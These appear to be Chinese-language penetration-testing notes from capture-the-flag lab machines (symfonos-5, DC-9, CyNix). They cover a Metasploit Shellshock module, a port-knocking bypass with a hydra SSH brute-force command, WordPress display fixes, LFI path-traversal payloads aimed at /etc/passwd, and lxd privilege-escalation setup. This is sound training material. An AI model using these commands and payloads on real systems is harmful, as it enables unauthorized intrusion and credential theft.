 

#### 一、 Shellshock - cgi-bin（symfonos-5）

> 运行CGI脚本时，会将特定信息复制到环境变量中。如果被调用，该信息将随后传递给
> Bash，从而为攻击者提供了一种注入恶意代码的方法。

```
msfconsole
use auxiliary/scanner/http/apache_mod_cgi_bash_env
show options
set rhosts 192.168.111.130
set targeturi /cgi-bin/underworld
run
```

#### 二、ssh(filtered) - knockd防护绕过（DC-9）

读取`/etc/knockd`

在kali上安装knockd，然后使用通过knock 192.168.111.130 7469 8475 9842命令
执行端口敲门操作。

```
./hydra -L user.txt -P pass.txt 192.168.111.132 ssh -t 4
```

#### 三、wordpress页面异常

第一种情况，bp设置下

![Snipaste_2020-02-10_10-35-40.png](https://i.loli.net/2020/02/10/qhGrWRMFesx2vZK.png)

第二种情况，修改hosts文件

![Snipaste_2020-02-10_11-51-55.png](https://i.loli.net/2020/02/10/Nb52cp31VCX6nPE.png)

#### 四、对于空白的php文件，尝试源码泄露(.zip)和fuzz参数(file)

#### 五、LFI bypass（CyNix）

```
;../../etc/passwd
AAAAAAAAAA../../../etc/passwd
%252e%252e%252f../../../etc/passwd
%250C../../../etc/passwd
%25A0../../../etc/passwd
```

#### 六、lxd提权（CyNix）

>https://www.hackingarticles.in/lxd-privilege-escalation/

```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```
